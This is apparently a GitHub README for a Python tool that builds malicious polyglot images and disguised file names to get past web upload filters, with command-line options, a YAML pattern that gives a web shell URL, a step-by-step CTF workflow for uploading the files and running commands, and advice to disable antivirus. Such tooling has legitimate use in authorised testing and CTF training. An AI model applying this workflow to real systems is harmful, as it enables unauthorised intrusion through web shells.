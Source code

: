```yaml
---

# 🔥 File Bypass Generator - Black Hat Edition 🔥

A powerful and modular Python tool designed to generate malicious image files for bypassing weak file upload restrictions in CTF challenges and penetration tests. This tool automates the creation of polyglot files and obfuscated filenames to exploit common vulnerabilities.

**Author:** CodeAx1
**For:** Educational Purposes & CTF Competitions

---
```


## ⚠️ DISCLAIMER & WARNING

**THIS TOOL IS STRICTLY FOR LEGAL AND EDUCATIONAL PURPOSES ONLY.**

*   Use only on systems you own **OR** have explicit, written permission to test.
*   Use only in controlled environments like **CTF competitions** or **your own lab**.
*   Unauthorized access to computer systems is a serious crime.

### 🦠 **ANTIVIRUS DETECTION NOTICE** 🦠

**This tool generates files containing malicious code signatures.**
> **I am not responsible if your antivirus software has a panic attack and deletes your files or your entire computer. This is expected behavior.**

The generated files are **designed to bypass security filters**, which means they often contain patterns that trigger **Antivirus (AV) and EDR solutions**. If you want to use this tool effectively, you should:

1.  **Disable real-time protection temporarily** while generating and testing payloads.
2.  Add the `bypass_payloads/` folder to your AV's exclusion list.
3.  Use a dedicated, isolated virtual machine (VM) for penetration testing (highly recommended).

---

## 🛠️ Installation & Setup

1.  **Clone the Repository:**
    ```bash
    git clone https://github.com/your_username/file-bypass-generator.git
    cd file-bypass-generator
    ```

2.  **Install Python Dependencies:**
    ```bash
    pip install -r requirements.txt
    ```
    *Required libraries: `PyYAML`, `Pillow`*

---

## 🚀 How to Use

### Basic Usage
Generate a single file by selecting a technique from the list:
```bash
python file_bypasser.py --ratio 1:1
```

### Advanced Usage
Generate ALL bypass techniques at once (Batch Mode):
```bash
python file_bypasser.py --ratio 16:9 --scale 50 --batch
```

### Command Line Arguments
| Argument | Description | Example |
| :--- | :--- | :--- |
| `--ratio` | **Required.** Image aspect ratio (Width:Height). | `--ratio 1:1` |
| `--scale` | Multiplier for the ratio to get final size in pixels. | `--scale 100` (creates 100x100px for 1:1) |
| `--yaml` | Path to your custom YAML patterns file. | `--yaml my_patterns.yaml` |
| `--name` | Base name for the generated file. | `--name my_shell` |
| `--payload` | Custom PHP payload to inject. | `--payload "<?php phpinfo(); ?>"` |
| `--batch` | Generate all patterns without prompting. | `--batch` |

---

## 📁 Understanding the YAML Pattern File

The tool uses `extension.yaml` to define the bypass techniques. You can easily add your own!

```yaml
- name: descriptive_name
  pattern: "filename.extension"
  access: "Instructions on how to access the shell after upload."
```

### Example Pattern:
```yaml
- name: double_extension
  pattern: "{basename}.php.jpg"
  access: "http://target.com/uploads/{filename}?cmd=whoami"
```
*   `{basename}` is replaced with the value from `--name`.
*   `{filename}` is replaced with the final generated filename.

---

## 🎯 How to Win CTFs with This Tool

1.  **Find a file upload form** on the target web application.
2.  **Run the tool** to create your arsenal of malicious files:
    ```bash
    python file_bypasser.py --ratio 1:1 --batch
    ```
3.  **Upload the files.** Use Burp Suite Intruder to automate uploading everything in the `bypass_payloads/` folder.
4.  **Find your shell!** The tool will print access URLs for you. One of them will work.
5.  **Execute commands & capture the flag:**
    ```bash
    # Example:
    http://ctf-target.com/uploads/shell.php.jpg?cmd=cat /flag.txt
    ```

---

## 🧠 Contribute & Customize

Feel free to contribute new bypass techniques by adding them to the `extension.yaml` file! The more patterns, the better the tool.

---

## 📜 License

This project is licensed under the MIT License - see the LICENSE file for details. Use this tool responsibly and ethically.

**Remember: With great power comes great responsibility. Now go win those CTFs!** 🏴‍☠️

---

